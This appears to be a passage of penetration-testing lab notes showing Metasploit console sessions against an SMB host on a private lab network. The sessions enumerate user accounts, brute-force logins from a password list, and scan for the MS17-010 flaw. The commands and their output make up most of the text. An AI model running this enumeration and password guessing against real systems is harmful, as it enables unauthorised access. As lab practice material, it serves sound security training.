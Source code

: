 ```
```

##### SMB User Enumeration

```
msf > use auxiliary/scanner/smb/smb_enumusers
msf auxiliary(smb_enumusers) > set SMBPASS vagrant
SMBPASS => vagrant
msf auxiliary(smb_enumusers) > set SMBUSER vagrant
SMBUSER => vagrant
msf auxiliary(smb_enumusers) > set RHOSTS 192.168.216.10
RHOSTS => 192.168.216.10
msf auxiliary(smb_enumusers) > run

[+] 192.168.216.10:445 - VAGRANT-2008R2 [ Administrator, anakin_skywalker, artoo_detoo, ben_kenobi, boba_fett, chewbacca, c_three_pio, darth_vader, greedo, Guest, han_solo, jabba_hutt, jarjar_binks, kylo_ren, lando_calrissian, leia_organa, luke_skywalker, sshd, sshd_server, vagrant ] ( LockoutTries=0 PasswordMin=0 )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_enumusers) > 
```

##### SMB Login Check Scanner

```
msf > use auxiliary/scanner/smb/smb_login 
msf auxiliary(smb_login) > set RHOSTS 192.168.216.10
RHOSTS => 192.168.216.10
msf auxiliary(smb_login) > set SMBUSER vagrant
SMBUSER => vagrant
msf auxiliary(smb_login) > set PASS_FILE /root/password.lst
PASS_FILE => /root/password.lst
msf auxiliary(smb_login) > run
...

[*] 192.168.216.10:445 - 192.168.216.10:445 - Domain is ignored for user vagrant
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#####  MS17-010 SMB RCE Detection

To determine if MS17-010 has been patched or not. Specifically, it connects to the IPC$ tree and attempts a transaction on FID 0. If the status returned is STATUS_INSUFF_SERVER_RESOURCES, the machine does not have the MS17-010 patch. If the machine is missing the MS17-010 patch, the module will check for an existing **DoublePulsar** (ring 0 shellcode/malware) infection. This module does not require valid SMB credentials in default server configurations. It can log on as the user \ and connect to IPC$:

```
msf > use auxiliary/scanner/smb/smb_ms17_010 
msf auxiliary(smb_ms17_010) > set RHOSTS 192.168.216.10
RHOSTS => 192.168.216.10
msf auxiliary(smb_ms17_010) > run

[+] 192.168.216.10:445 - Host is likely VULNERABLE to MS17-010! (Windows Server 2008 R2 Standard 7601 Service Pack 1)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_ms17_010) > 
```
